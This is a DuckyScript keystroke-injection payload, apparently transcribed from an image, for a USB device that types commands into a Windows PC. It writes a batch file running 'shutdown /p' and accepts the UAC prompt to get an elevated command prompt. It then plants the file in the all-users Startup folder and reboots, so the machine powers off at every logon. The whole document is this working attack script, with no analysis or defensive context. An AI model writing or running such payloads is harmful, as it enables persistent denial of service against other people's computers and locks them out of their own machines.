     DELAY 5000
    GUI r
    DELAY 800
    STRING notepad
    DELAY 800
    ENTER
    DELAY 800
    STRING @echo off
    DELAY 800
    ENTER
    STRING shutdown /p
    DELAY 800
    CONTROL S
    DELAY 800
    ALT D
    DELAY 800
    STRING Documents
    DELAY 800
    ENTER
    DELAY 800
    ALT n
    DELAY 800
    STRING and i oop.bat
    DELAY 850
    ALT t
    DELAY 800
    DOWNARROW
    DELAY 800
    DOWNARROW
    DELAY 800
    ENTER
    DELAY 800
    ALT s
    DELAY 800
    ALT F4
    DELAY 800
    GUI r
    DELAY 800
    STRING cmd
    DELAY 800
    CONTROL SHIFT ENTER
    DELAY 800
    LEFTARROW
    DELAY 850
    ENTER
    DELAY 800
    STRING echo %username% |clip
    DELAY 800
    ENTER
    DELAY 800
    STRING cd..
    DELAY 800
    ENTER
    DELAY 800
    STRING cd..
    DELAY 800
    ENTER
    DELAY 800
    STRING cd Users\
    DELAY 800
    CONTROL v
    DELAY 900
    ENTER
    DELAY 800
    STRING move "Documents\and i oop.bat" "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    DELAY 800
    ENTER
    DELAY 8000
    STRING shutdown /r /t 0        